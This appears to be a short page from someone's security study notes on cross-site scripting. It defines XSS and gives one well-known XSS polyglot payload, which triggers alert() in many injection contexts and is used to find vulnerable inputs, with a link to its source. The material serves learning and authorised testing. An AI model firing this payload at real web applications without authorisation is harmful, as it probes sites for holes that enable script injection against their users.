

repository: gandhi-taha/security · page: attacking_web_applications/cross-site-scripting/index.html · generator: mkdocs

# Cross-site-scripting


Cross-site-scripting, or XSS as it is sometimes abbreviated to, is an attack that let's the attacker execute javascript code in the browser of the victim.


## Finding XSS - Polyglot




```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot
